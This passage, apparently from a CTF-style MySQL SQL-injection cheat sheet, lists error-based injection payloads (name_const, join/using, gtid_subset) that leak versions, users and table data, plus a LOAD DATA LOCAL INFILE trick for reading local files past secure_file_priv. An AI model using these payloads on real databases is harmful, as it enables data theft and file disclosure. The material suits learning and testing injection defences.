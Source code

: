 ````sql
It can be used to obtain database version information, `Payload`: `select * from(select name_const(version(), 0x1), name_const(version(), 0x1))a`.

<div align=center><img src="./images/4.png"></div>

### join using
The system keyword `join` can establish an internal connection between two tables. By connecting the table that you want to query the column name and its own suggested internal connection will occur due to redundancy (the same column name exists). And the error message will have duplicate column names. You can use the `using` expression to declare the inner join condition to avoid error reports.

````sql
select * from(select * from users a join (select * from users)b)c;
select * from(select * from users a join (select * from users)b using(username))c;
select * from(select * from users a join (select * from users)b using(username,password))c
```

### GTID related functions
The versions of the `Trick` applicable to `MySQL` are `5.6.x`, `5.7.x`, and `8.x`, and the parameter format is incorrect to perform error injection.

````sql
select gtid_subset(user(),1);
select gtid_subset(hex(substr((select * from users limit 1,1),1,1)),1);
select gtid_subtract((select * from(select user())a),1);
```
## File Reading and Writing
As mentioned above, when explaining the read and write content of the file, `file_priv` is the user's file read and write permissions. If there is no permission, the file read and write operation cannot be performed. `secure-file-priv` is a system variable that restricts the file read/write function, as follows:
 - No content, means no limit.
 - is `NULL`, which means that the file is not read/write.
 - is a directory name, which means that only read/write files in a specific directory are allowed.

The default value of `MySQL 5.5.53` itself and later versions `secure-file-priv` is `NULL`, and the previous version was `contentless. There are three ways to view the current value of `secure-file-priv`:

````sql
select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like "secure_file_priv";
```

There are two ways to modify `secure-file-priv`:
 - Add `secure-file-priv=xxxx` by modifying the `my.ini` file.
 - Add parameter `mysqld.exe --secure-file-priv=xxxx` to start the item.


### Low permissions to read files
In the `MySQL 5.5.53` version, the `secure-file-priv=NULL` read file `Payload` is as follows:

````sql
drop table mysql.m1;
CREATE TABLE mysql.m1 (code TEXT );
LOAD DATA LOCAL INFILE 'D://flag.txt' INTO TABLE mysql.m1 fields terminated by '';
select * from mysql.m1;
```

### MySQL reads files when connecting to a database
````